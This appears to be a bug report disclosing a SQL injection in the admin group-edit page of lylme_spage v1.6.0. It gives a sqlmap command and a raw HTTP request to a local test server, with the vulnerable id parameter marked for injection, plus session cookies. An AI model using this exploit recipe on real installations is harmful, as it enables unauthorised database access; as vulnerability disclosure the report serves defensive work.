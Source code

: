 https://gitee.com/lylme/lylme_spage/tree/v1.6.0

当我们点击后台的分组管理 编辑按钮时 id存在sql注入漏洞
sql injection vulnerability exists when we click the group management Edit button in the background

![image](https://github.com/user-attachments/assets/160d2142-126d-4ddf-90ea-c408bfa5b2f2)

![image](https://github.com/user-attachments/assets/a18dfc22-5c2e-4ced-b136-b857f9304f9b)

sqlmap -r filename --dbms mysql

GET /admin/group.php?set=edit&id=* HTTP/1.1
Host: 127.0.0.1:9998
sec-ch-ua: "Not=A?Brand";v="99", "Chromium";v="118"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9998/admin/group.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_token=90d7M%2F3WDbztaftquNBfPRbNjPw3LxjDKcUaDvO7bEYpzHRRwwPyLNeT0td94g7p9w%2FXL0yfP9yV79VFuXdofmtlOg; BRPcM_admin_username=6876tBBUp5geSxCQN5sA1iKcxHKWIYz21qWkazG8S7yeLg; BRPcM_siteid=d932okj60sk0B9TkqM1wpAl87Z7cVJGoQaDRLspG; BRPcM_userid=f73dmCvThxA-y9q6p7E4mTCO1Yu7GN2Md5i5VRay; BRPcM_admin_email=d4adXnvKveOWi9fo2VEdwAuaB8F34r9gqTCJ-An7Vr_H5Pge; BRPcM_sys_lang=95b7Z8OobH3UEBHG6reEsIAHxg3si_OotB0pwqWUH0FmZg; JSESSIONID=ZCgZNzqIkXhtv3WhzYFl5fjxcB9DdC4id5mxh0O1; PHPSESSID=qkk1eisjp2p17ce7tll9tfq6vb; admin_token=c5f7pAlNpu4s4xQllufPvMzOK6dR6J2Z0TkaFIgtOFzg1VKSltZq614l0Nc7mTL2SmmcluK6%2FUhwXZFDZ4UROQNqGg
Connection: close

![image](https://github.com/user-attachments/assets/c39dc272-8ebd-4b5c-96a0-2dabbd0b96f7)
